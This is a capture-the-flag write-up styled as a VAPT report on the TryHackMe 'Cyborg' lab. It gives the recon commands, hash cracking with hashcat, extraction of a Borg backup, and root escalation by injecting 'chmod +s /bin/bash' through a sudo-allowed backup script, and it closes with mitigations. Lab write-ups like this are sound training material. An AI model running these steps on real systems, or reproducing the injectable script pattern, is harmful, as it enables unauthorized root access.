 # Vulnerability Assessment and Penetration Testing (VAPT) Report – Cyborg

**Prepared by:** Nishanth Antony  
**Date:** August 29, 2025  
**Difficulty:** Easy    
**Category:** Web Exploitation / Privilege Escalation  
**Platform:** TryHackMe (THM)  

---

## 1. Reconnaissance Steps  
**Objective:** Identify open ports and accessible directories on the target.  
**Commands Used:**  
- `nmap -sC -sV -o nmap 10.10.148.94`  
- `gobuster dir -u http://10.10.148.94/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o dirs.log`  

**Findings:**  
- Open ports: SSH (22, OpenSSH 7.2p2) and HTTP (80, Apache 2.4.18).  
- HTTP default page confirmed; Gobuster revealed `/admin` directory.  
- `/admin` contained a music producer landing page with a downloadable `archive.tar`.  
- Shoutbox mentioned a squid proxy and config files in `/etc/squid/squid.conf`.  
- `/etc` directory and `squid.conf` contained a password hash file.  

---

## 2. Exploitation Process  
**Step 1 – Web Enumeration**  
- Accessed `/admin`, downloaded `archive.tar`.  
- Extracted `archive.tar`:  
  ```bash
  tar -xvf archive.tar
  home/field/dev/final_archive/
  home/field/dev/final_archive/hints.5
  home/field/dev/final_archive/integrity.5
  home/field/dev/final_archive/config
  home/field/dev/final_archive/README
  home/field/dev/final_archive/nonce
  home/field/dev/final_archive/index.5
  home/field/dev/final_archive/data/
  home/field/dev/final_archive/data/0/
  home/field/dev/final_archive/data/0/5
  home/field/dev/final_archive/data/0/3
  home/field/dev/final_archive/data/0/4
  home/field/dev/final_archive/data/0/1
  ```
- `README` indicated a Borg Backup repository.  

**Step 2 – Password Extraction**  
- Identified hash in `squid.conf`: `music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.`.  
- Cracked hash with hashcat:  
  ```bash
  hashcat --force -m 1600 -a 0 hash /home/kali/rockyou.txt
  $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:squidward
  ```
- Extracted Borg archive:  
  `borg extract /path/to/archive::music_archive` with password `squidward`.  
- Found `note.txt` in `home/alex/Documents` with credentials: `alex:S3cretP@s3`.  

**Step 3 – SSH Access as Alex**  
- Logged in via SSH:  
  `ssh alex@10.10.148.94`  
- Retrieved user flag:  
  ```bash
  alex@ubuntu:~$ ls
  Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
  alex@ubuntu:~$ cat user.txt
  flag{************FLAG**************}
  ```
- Outcome: User flag retrieved.  

**Step 4 – Privilege Escalation**  
- Checked sudo permissions:  
  `sudo -l`  
- Found alex could run `/etc/mp3backups/backup.sh` as root without password:  
  ```
  (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
  ```
- Analyzed `backup.sh`:  
  ```bash
  #!/bin/bash
  sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt
  input="/etc/mp3backups/backed_up_files.txt"
  while getopts c: flag
  do
          case "${flag}" in 
                  c) command=${OPTARG};;
          esac
  done
  backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 ..."
  dest="/etc/mp3backups/"
  hostname=$(hostname -s)
  archive_file="$hostname-scheduled.tgz"
  echo "Backing up $backup_files to $dest/$archive_file"
  tar czf $dest/$archive_file $backup_files
  echo
  echo "Backup finished"
  cmd=$($command)
  echo $cmd
  ```
- Exploited command injection:  
  `sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"`  
- Gained root shell:  
  ```bash
  alex@ubuntu:/etc/mp3backups$ bash -p
  bash-4.3# whoami
  root
  bash-4.3# cat /root/root.txt
  flag{***************FLAG***************}
  ```
- Outcome: Root flag retrieved.  

---

## 3. Proof of Concept (PoC)  
- **Hash Cracking:**  
  `hashcat --force -m 1600 -a 0 hash /home/kali/rockyou.txt` yielded `squidward`.  
- **Borg Extraction:**  
  `borg extract /path/to/archive::music_archive` with `squidward`.  
- **Privilege Escalation:**  
  `sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"` followed by `bash -p`.  

---

## 4. Privilege Escalation  
- Exploited `backup.sh` command injection to set SUID on `/bin/bash`, gaining root shell.  

---

## 5. Mitigation Recommendations  
- **Web Server Hardening:**  
  - Restrict access to sensitive directories (e.g., `/admin`).  
- **Authentication Security:**  
  - Use strong passwords and multi-factor authentication for SSH.  
- **File Security:**  
  - Avoid storing credentials in plaintext files (e.g., `note.txt`).  
- **Sudo Configuration:**  
  - Avoid allowing command-line arguments in sudo scripts (e.g., remove `-c` option).  
- **Patch Management:**  
  - Update Apache and OpenSSH to latest versions.  
  - Monitor for unauthorized script modifications.  

---

## 6. Lessons Learned  
- **Command Injection:** Unrestricted script arguments can lead to privilege escalation.  
- **Credential Exposure:** Plaintext credentials in files are a significant risk.  
- **Backup Security:** Poorly configured backup scripts can be exploited.  

---

## 7. Skills Practiced  
- Network scanning (nmap)  
- Web directory enumeration (gobuster)  
- Hash cracking (hashcat)  
- Backup archive extraction (borg)  
- SSH access and privilege escalation  
- Secure reporting and mitigation strategies  
